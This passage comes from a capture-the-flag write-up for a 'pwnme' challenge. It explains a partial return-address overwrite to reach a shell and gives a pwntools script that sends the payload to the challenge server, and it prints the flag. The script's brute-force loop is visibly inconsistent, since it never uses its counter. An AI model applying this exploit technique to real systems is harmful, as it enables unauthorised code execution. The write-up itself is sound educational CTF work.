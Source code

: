 #### Overwriting the Return Address:
- By setting index = 60, we can reach the return address.
- Because this is a 2-byte write, we need to overwrite the last two bytes of the return address.

#### Bypassing the Stack Canary:
- This binary uses a stack canary, which prevents straightforward buffer overflow exploitation.
- Since we’re only writing the last 2 bytes of the return address, the stack canary check is bypassed.

#### Brute-Forcing the Last Nibble:
- We brute-force the final nibble of the return address to match the correct return address value.
- Each iteration adjusts the return address until it eventually matches the desired address for code redirection.


#### Steps

- Identify the last two bytes needed for the return address to point to our desired location.
- Create a loop to attempt each possible last nibble value, sending payloads until a shell is achieved.

Here’s the Python script using pwntools to automate the exploitation.

``` python
from pwn import *

elf = context.binary = ELF("./pwnme")

# Loop to brute-force the final nibble
for i in range(200):
    p = remote("0.cloud.chals.io", 16612)  # Connect to remote
    p.sendlineafter(b"Write-What-Where:", b"60")  # Set index to overwrite return address
    p.send(b"21317")  # Send the 2-byte value to try
    p.interactive()  # Enter interactive mode to see if we get a shell
```
{: .nolineno }


![image](https://gist.github.com/user-attachments/assets/c50fe3f0-e3ca-4b37-ba47-458b2b45f288)


`udctf{th3_0n3_1n_s1xt33n_pwn_str4t_FTW}`

### Training Problem: Intro to PWN

#### Description

Classic win function pwn.

(I originally released this with a canary, took away the canary and redployed the service. If your binary has a canary download again.)

`nc 0.cloud.chals.io 13545`

**Challenge Author:** *ProfNinja*
